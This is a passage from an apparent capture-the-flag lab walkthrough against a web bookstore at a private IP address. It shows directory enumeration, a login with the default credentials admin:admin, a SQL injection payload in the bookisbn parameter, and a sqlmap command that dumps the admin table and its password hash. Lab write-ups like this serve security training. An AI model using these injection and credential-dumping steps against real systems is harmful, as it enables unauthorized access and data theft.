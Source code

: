 Our scan reveals a few directories of interest: /admin (decoy), /secret (decoy), and /store.

Navigating to http://192.168.120.224/admin/, we see a login control. And navigating to http://192.168.120.224/store/, we see a link `Admin Logi`n in the lower-right portion of the screen that leads to another login control at http://192.168.120.224/store/admin.php


###  Exploitation

There are a couple of ways to proceed at this point.

### Login Bruteforce

We can simply try one of the well-known default credential pairs `admin:admin` against http://192.168.120.224/store/admin.php. And we will find that we are logged in as the administrator user of this web store.

### SQL Injection Vulnerability


Alternatively, we can exploit an SQL injection vulnerability in the unauthenticated portion of this application. Clicking on a book image (for example, `C# 6.0 in a Nutshell`), we are directed to its page with the bookisbn GET parameter, like this:

```bash
http://192.168.120.224/store/book.php?bookisbn=978-1-49192-706-9
```

We can try a simple payload to test for SQLi vulnerabilities ' or 1=1; --, like so:

```bash
http://192.168.120.224/store/book.php?bookisbn=%27%20or%201=1;%20--
```
And we see that this application indeed seems to be vulnerable based on the following verbose error:
```bash
Can't retrieve data You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '--'' at line 
```
### SQLMap
Since the website directory for the store is aptly names `store`, we can venture an educated guess that the underlying database might also be named `store`. Using `sqlmap`, we can automate the exploitation and leak database contents:

```bash
kali@kali:~$ sqlmap -u http://192.168.120.224/store/book.php?bookisbn= --dump-all --batch -D store
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

...

Database: store                                                                                                          
Table: admin
[1 entry]
+-------+--------------------------------------------------+
| name  | pass                                             |
+-------+--------------------------------------------------+
| admin | d033e22ae348aeb5660fc2140aec35850c4da997 (admin) |
+-------+--------------------------------------------------+
```
